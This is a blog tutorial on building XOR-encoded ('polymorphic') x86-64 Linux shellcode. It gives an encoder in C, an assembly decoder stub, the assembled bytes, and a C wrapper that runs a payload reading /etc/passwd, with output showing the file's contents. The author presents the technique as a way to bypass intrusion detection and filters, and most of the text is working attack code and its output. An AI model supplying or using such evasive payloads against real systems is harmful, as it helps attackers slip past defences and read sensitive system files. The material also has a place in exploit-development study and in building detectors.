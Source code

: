 #1. Surroundings
<pre><code class="bash">$ uname -a
Linux debian 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u2 (2017-03-07) x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 8.7 (jessie)
Release:	8.7
Codename:	jessie

$ gcc --version
gcc (Debian 4.9.2-10) 4.9.2

$ nasm -v
NASM version 2.11.05 compiled on Sep  9 2014

$ ld --version
GNU ld (GNU Binutils for Debian) 2.25</code></pre>

#2. Explanation
For the second post of the shellcode serie, I will show you the polymorphic shellcode method.
This method has lots of advantages. For example, the encoded shellcode can contain null bytes, she is very easy to implement and also very powerfull to bypass IDS and filters. The shellcode is composed of two parts:<pre><code>+--------------------+-------------------+
|                    |                   |
|      DECODER       | ENCODED SHELLCODE |
|                    |                   |
+--------------------+-------------------+</code></pre>
As you can see, we will first have the decoder and the encoded shellcode. The aim is first to decode the encoded shellcode thanks to the decoder and then jump on the decoded shellcode to execute code. The operations uses to encoded/decoded the shellcode can be very different, like addition, subtraction, xor, etc. For this post, I have choose the xor algorithm with a very basic key. This shellcode is not the most optimized.

#3. Shellcode writting
We first need a shellcode to XOR it. I've choose the one of [my previous article](http://quentinmeffre.fr/basic-shellcode/). To XOR the shellcode, I choose the byte 0x69. This his key is very basic for two reason:

- First because it impact the final shellcode length.

- Second because the next encoded shellcode don't contain this byte. (cf: 1^1 = 0 so null byte)

Let's encoded the shellcode:
<pre><code class="cpp">$ cat xor.c 
#include &lt;stdio.h&gt;

unsigned char shellcode[] = "\xeb\x39\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x48\x89\xc7\x48\x8d\x34\x24\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\xb7\x01\x48\x89\xc2\x48\x31\xc0\xb0\x01\x0f\x05\x48\x31\xc0\xb0\x3c\x0f\x05\xe8\xc2\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41";

int main(void) {

  for (int i = 0; shellcode[i]; i++) {
    printf("0x%02x,", shellcode[i] ^ 0x69);
  }
  printf("\n");
  return 0;
}

$ gcc xor.c -o xor -std=c99

$ ./xor 
0x82,0x50,0x36,0xe9,0x1e,0x62,0x28,0x21,0x58,0xa9,0x6d,0x6b,0x21,0x58,0x9f,0x66,0x6c,0x21,0xe0,0xae,0x21,0xe4,0x5d,0x4d,0x21,0x58,0xbb,0x0f,0xd3,0x96,0x66,0x21,0x58,0xa9,0x66,0x6c,0x21,0x58,0x96,0x29,0xde,0x68,0x21,0xe0,0xab,0x21,0x58,0xa9,0xd9,0x68,0x66,0x6c,0x21,0x58,0xa9,0xd9,0x55,0x66,0x6c,0x81,0xab,0x96,0x96,0x96,0x46,0x0c,0x1d,0x0a,0x46,0x19,0x08,0x1a,0x1a,0x1e,0x0d,0x28,
</code></pre>
It's ok for the encoded shellcode part. Now we will do the decoder. It will be a basic loop which will iterate all over the encoded shellcode, XOR every bytes and then jump on the decoded shellcode.
<pre><code class="x86asm">_start:
	jmp L1
L2:
	pop rsi                      ; First pop "shell" value to RSI
	xor rcx, rcx
	mov cl, 0x4c                 ; Move "shell" length (76) to cl
L3:
	xor byte [rsi+rcx], 0x69     ; XOR the "shell" byte with the key
	sub cl, 1                    ; Substracte the "shell" length of 1
	jnz L3                       ; Loop if cl is none zero
	xor byte [rsi+rcx], 0x69     ; XOR the last byte
	jmp L4                       ; Jump on the decoded shellcode
L1:
	call L2
L4:
shell:	db 0x82,0x50,0x36,0xe9,0x1e,0x62,0x28,0x21,0x58,0xa9,0x6d,0x6b,0x21,0x58,0x9f,0x66,0x6c,0x21,0xe0,0xae,0x21,0xe4,0x5d,0x4d,0x21,0x58,0xbb,0x0f,0xd3,0x96,0x66,0x21,0x58,0xa9,0x66,0x6c,0x21,0x58,0x96,0x29,0xde,0x68,0x21,0xe0,0xab,0x21,0x58,0xa9,0xd9,0x68,0x66,0x6c,0x21,0x58,0xa9,0xd9,0x55,0x66,0x6c,0x81,0xab,0x96,0x96,0x96,0x46,0x0c,0x1d,0x0a,0x46,0x19,0x08,0x1a,0x1a,0x1e,0x0d,0x28
</code></pre>
And now the shellcode is ready to pown binary's!

#4. The shellcode
The final shellcode is on the last schema, now we can assemble it, compile it and check null-bytes:<pre><code class="bash">$ nasm -f elf64 polymorphic.s -o polymorphic.o

$ ld polymorphic.o -o polymorphic             
ld: warning: cannot find entry symbol _start; defaulting to 0000000000400080

$ objdump -d polymorphic        

polymorphic:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 &lt;_start&gt;:
  400080:	eb 15                	jmp    400097 &lt;L1&gt;

0000000000400082 &lt;L2&gt;:
  400082:	5e                   	pop    %rsi
  400083:	48 31 c9             	xor    %rcx,%rcx
  400086:	b1 4c                	mov    $0x4c,%cl

0000000000400088 &lt;L3&gt;:
  400088:	80 34 0e 69          	xorb   $0x69,(%rsi,%rcx,1)
  40008c:	80 e9 01             	sub    $0x1,%cl
  40008f:	75 f7                	jne    400088 &lt;L3&gt;
  400091:	80 34 0e 69          	xorb   $0x69,(%rsi,%rcx,1)
  400095:	eb 05                	jmp    40009c &lt;L4&gt;

0000000000400097 &lt;L1&gt;:
  400097:	e8 e6 ff ff ff       	callq  400082 &lt;L2&gt;

000000000040009c &lt;L4&gt;:
  40009c:	82                   	(bad)  
  40009d:	50                   	push   %rax
  40009e:	36 e9 1e 62 28 21    	ss jmpq 216862c2 &lt;__bss_start+0x210852c2&gt;
  4000a4:	58                   	pop    %rax
  4000a5:	a9 6d 6b 21 58       	test   $0x58216b6d,%eax
  4000aa:	9f                   	lahf   
  4000ab:	66 6c                	data16 insb (%dx),%es:(%rdi)
  4000ad:	21 e0                	and    %esp,%eax
  4000af:	ae                   	scas   %es:(%rdi),%al
  4000b0:	21 e4                	and    %esp,%esp
  4000b2:	5d                   	pop    %rbp
  4000b3:	4d 21 58 bb          	and    %r11,-0x45(%r8)
  4000b7:	0f d3 96 66 21 58 a9 	psrlq  -0x56a7de9a(%rsi),%mm2
  4000be:	66 6c                	data16 insb (%dx),%es:(%rdi)
  4000c0:	21 58 96             	and    %ebx,-0x6a(%rax)
  4000c3:	29 de                	sub    %ebx,%esi
  4000c5:	68 21 e0 ab 21       	pushq  $0x21abe021
  4000ca:	58                   	pop    %rax
  4000cb:	a9 d9 68 66 6c       	test   $0x6c6668d9,%eax
  4000d0:	21 58 a9             	and    %ebx,-0x57(%rax)
  4000d3:	d9 55 66             	fsts   0x66(%rbp)
  4000d6:	6c                   	insb   (%dx),%es:(%rdi)
  4000d7:	81 ab 96 96 96 46 0c 	subl   $0x460a1d0c,0x46969696(%rbx)
  4000de:	1d 0a 46 
  4000e1:	19 08                	sbb    %ecx,(%rax)
  4000e3:	1a 1a                	sbb    (%rdx),%bl
  4000e5:	1e                   	(bad)  
  4000e6:	0d                   	.byte 0xd
  4000e7:	28                   	.byte 0x28</code></pre>
Everything might be correct.

#5. Demonstration
And the final C wrapper to test the shellcode:<pre><code class="cpp">#include &lt;stdio.h&gt;
#include &lt;string.h&gt;

char shellcode[] = "\xeb\x15\x5e\x48\x31\xc9\xb1\x4c\x80\x34\x0e\x69\x80\xe9\x01\x75\xf7\x80\x34\x0e\x69\xeb\x05\xe8\xe6\xff\xff\xff\x82\x50\x36\xe9\x1e\x62\x28\x21\x58\xa9\x6d\x6b\x21\x58\x9f\x66\x6c\x21\xe0\xae\x21\xe4\x5d\x4d\x21\x58\xbb\x0f\xd3\x96\x66\x21\x58\xa9\x66\x6c\x21\x58\x96\x29\xde\x68\x21\xe0\xab\x21\x58\xa9\xd9\x68\x66\x6c\x21\x58\xa9\xd9\x55\x66\x6c\x81\xab\x96\x96\x96\x46\x0c\x1d\x0a\x46\x19\x08\x1a\x1a\x1e\x0d\x28";

int main(void) {
  printf("Shellcode length: %d\n", strlen(shellcode));
  (*(void (*)()) shellcode)();
  return 0;
}</code></pre>
We can now compile it and test it:<pre><code class="bash">$ gcc wrapper.c -z execstack

$ ./a.out 
Shellcode length: 104
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
...</code></pre>
Done.
